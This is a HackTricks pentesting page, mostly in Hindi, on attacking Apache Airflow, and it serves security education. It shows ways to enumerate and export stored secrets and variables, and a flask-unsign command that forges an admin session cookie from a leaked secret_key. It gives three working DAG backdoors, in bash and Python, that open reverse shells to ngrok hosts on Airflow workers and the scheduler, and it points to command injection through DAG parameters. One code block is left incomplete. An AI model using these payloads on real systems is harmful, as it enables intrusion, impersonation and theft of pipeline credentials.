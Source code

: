 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) **डेटा पाइपलाइनों या वर्कफ़्लो को व्यवस्थित और शेड्यूल करने के लिए एक प्लेटफ़ॉर्म के रूप में कार्य करता है**। डेटा पाइपलाइनों के संदर्भ में "व्यवस्थापन" का अर्थ विभिन्न स्रोतों से उत्पन्न जटिल डेटा वर्कफ़्लो को व्यवस्थित, समन्वयित और प्रबंधित करने की प्रक्रिया है। इन व्यवस्थित डेटा पाइपलाइनों का मुख्य उद्देश्य संसाधित और उपभोग करने योग्य डेटा सेट प्रदान करना है। ये डेटा सेट कई अनुप्रयोगों द्वारा व्यापक रूप से उपयोग किए जाते हैं, जिनमें व्यवसायिक बुद्धिमत्ता उपकरण, डेटा विज्ञान और मशीन लर्निंग मॉडल शामिल हैं, जो सभी बड़े डेटा अनुप्रयोगों के कार्य करने के लिए आधारभूत हैं।

बुनियादी रूप से, Apache Airflow आपको **कोड के निष्पादन को शेड्यूल करने की अनुमति देगा जब कुछ** (घटना, क्रोन) **होगा**।

### Local Lab

#### Docker-Compose

आप **docker-compose config file का उपयोग कर सकते हैं** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) **एक पूर्ण apache airflow docker वातावरण लॉन्च करने के लिए। (यदि आप MacOS पर हैं, तो सुनिश्चित करें कि आप docker VM को कम से कम 6GB RAM दें)**।

#### Minikube

**apache airflow को चलाने का एक आसान तरीका है** इसे **minikube के साथ चलाना**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Configuration

Airflow अपनी कॉन्फ़िगरेशन में **संवेदनशील जानकारी** संग्रहीत कर सकता है या आप कमजोर कॉन्फ़िगरेशन पा सकते हैं:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Airflow पर हमला करने से पहले आपको **अनुमतियों का काम कैसे होता है** समझना चाहिए:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Attacks

#### Web Console Enumeration

यदि आपके पास **वेब कंसोल तक पहुंच** है तो आप निम्नलिखित जानकारी में से कुछ या सभी तक पहुंच सकते हैं:

* **Variables** (कस्टम संवेदनशील जानकारी यहाँ संग्रहीत की जा सकती है)
* **Connections** (कस्टम संवेदनशील जानकारी यहाँ संग्रहीत की जा सकती है)
* उन्हें `http://<airflow>/connection/list/` में एक्सेस करें
* [**Configuration**](./#airflow-configuration) (संवेदनशील जानकारी जैसे **`secret_key`** और पासवर्ड यहाँ संग्रहीत किए जा सकते हैं)
* **users & roles** की सूची
* **Code of each DAG** (जो दिलचस्प जानकारी हो सकती है)

#### Retrieve Variables Values

Variables Airflow में संग्रहीत किए जा सकते हैं ताकि **DAGs** उनके मानों को **एक्सेस** कर सकें। यह अन्य प्लेटफार्मों के रहस्यों के समान है। यदि आपके पास **पर्याप्त अनुमतियाँ** हैं तो आप उन्हें GUI में `http://<airflow>/variable/list/` में एक्सेस कर सकते हैं।\
Airflow डिफ़ॉल्ट रूप से GUI में वेरिएबल का मान दिखाएगा, हालाँकि, [**इस**](https://marclamberti.com/blog/variables-with-apache-airflow/) के अनुसार, यह संभव है कि **वेरिएबल्स की एक सूची** सेट की जाए जिनका **मान** **अतिरिक्त चिह्नों** के रूप में **GUI** में दिखाई देगा।

![](<../../.gitbook/assets/image (164).png>)

हालांकि, ये **मान** अभी भी **CLI** के माध्यम से **प्राप्त** किए जा सकते हैं (आपको DB एक्सेस की आवश्यकता है), **मनमाने DAG** निष्पादन, **API** के माध्यम से वेरिएबल्स एंडपॉइंट तक पहुंच (API को सक्रिय करना आवश्यक है), और **यहाँ तक कि GUI स्वयं!**\
GUI से उन मानों तक पहुँचने के लिए बस **वेरिएबल्स** का चयन करें जिन्हें आप एक्सेस करना चाहते हैं और **Actions -> Export** पर क्लिक करें।\
एक और तरीका है **छिपे हुए मान** पर **ब्रूटफोर्स** करना, इसे **खोज फ़िल्टरिंग** का उपयोग करके जब तक आप इसे प्राप्त न कर लें:

![](<../../.gitbook/assets/image (152).png>)

#### Privilege Escalation

यदि **`expose_config`** कॉन्फ़िगरेशन **True** पर सेट है, तो **User** भूमिका और **ऊपर** से **वेब में कॉन्फ़िग** को **पढ़** सकते हैं। इस कॉन्फ़िग में, **`secret_key`** प्रकट होता है, जिसका अर्थ है कि इस वैध के साथ कोई भी उपयोगकर्ता **अपना स्वयं का साइन किया हुआ कुकी बना सकता है ताकि किसी अन्य उपयोगकर्ता खाते का प्रतिनिधित्व कर सके**।
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG बैकडोर (Airflow कार्यकर्ता में RCE)

यदि आपके पास **लिखने की अनुमति** है जहाँ **DAGs सहेजे जाते हैं**, तो आप बस **एक बना सकते हैं** जो आपको एक **रिवर्स शेल** भेजेगा।\
ध्यान दें कि यह रिवर्स शेल एक **airflow कार्यकर्ता कंटेनर** के अंदर निष्पादित होने वाला है:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG बैकडोर (Airflow शेड्यूलर में RCE)

यदि आप कुछ को **कोड की जड़ में निष्पादित करने के लिए सेट करते हैं**, तो इस लेखन के क्षण में, इसे **शेड्यूलर द्वारा निष्पादित किया जाएगा** DAG के फ़ोल्डर में रखने के कुछ सेकंड बाद।
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG Creation

यदि आप **DAG क्लस्टर के अंदर एक मशीन को समझौता करने में सफल होते हैं**, तो आप `dags/` फ़ोल्डर में नए **DAGs स्क्रिप्ट** बना सकते हैं और ये **DAG क्लस्टर के अंदर बाकी मशीनों में दोहराए जाएंगे**।

#### DAG Code Injection

जब आप GUI से एक DAG को निष्पादित करते हैं, तो आप इसे **आर्गुमेंट्स** दे सकते हैं।\
इसलिए, यदि DAG ठीक से कोडित नहीं है, तो यह **कमांड इंजेक्शन के लिए संवेदनशील हो सकता है।**\
यही इस CVE में हुआ: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

आपको **DAGs में कमांड इंजेक्शन की तलाश शुरू करने के लिए जो कुछ जानने की आवश्यकता है, वह यह है कि **पैरामीटर्स** को कोड **`dag_run.conf.get("param_name")`** के साथ **एक्सेस किया जाता है**।

इसके अलावा, वही संवेदनशीलता **वेरिएबल्स** के साथ भी हो सकती है (ध्यान दें कि पर्याप्त विशेषाधिकार के साथ आप GUI में **वेरिएबल्स के मान को नियंत्रित कर सकते हैं**)। वेरिएबल्स को **इससे एक्सेस किया जाता है**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
यदि उन्हें उदाहरण के लिए एक bash कमांड के अंदर उपयोग किया जाता है, तो आप एक कमांड इंजेक्शन कर सकते हैं।

{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर **फॉलो करें**।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}

